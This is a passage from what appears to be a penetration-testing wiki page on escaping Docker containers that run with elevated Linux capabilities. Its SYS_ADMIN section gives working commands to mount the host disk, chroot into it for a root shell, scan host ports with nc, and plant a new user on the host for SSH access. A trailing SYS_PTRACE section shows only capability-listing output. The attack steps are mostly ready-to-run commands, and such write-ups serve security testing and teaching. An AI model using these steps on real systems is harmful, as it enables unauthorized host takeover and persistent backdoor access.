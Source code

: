Inside the previous output you can see that the SYS\_ADMIN capability is enabled.

### Mount

This allows the docker container to **mount the host disk and access it freely**:

```bash
fdisk -l #Get disk name
Disk /dev/sda: 4 GiB, 4294967296 bytes, 8388608 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes

mount /dev/sda /mnt/ #Mount it
cd /mnt
chroot ./ bash #You have a shell inside the docker hosts disk
```

### Full access

In the previous method we managed to access the docker host disk.  
In case you find that the host is running an ssh server, you could create a user inside the docker host disk and access it via SSH:

```bash
#Like in the example before, the first step is to moun the dosker host disk
fdisk -l
mount /dev/sda /mnt/

#Then, search for open ports inside the docker host
nc -v -n -w2 -z 172.17.0.1 1-65535
(UNKNOWN) [172.17.0.1] 2222 (?) open

#finally, create a new user inside the docker host and use it to access via SSH
chroot /mnt/ adduser john
ssh john@172.17.0.1 -p 2222
```

## SYS\_PTRACE **Capability**

You can check the enabled capabilities inside the docker container using:

```text
capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root
```
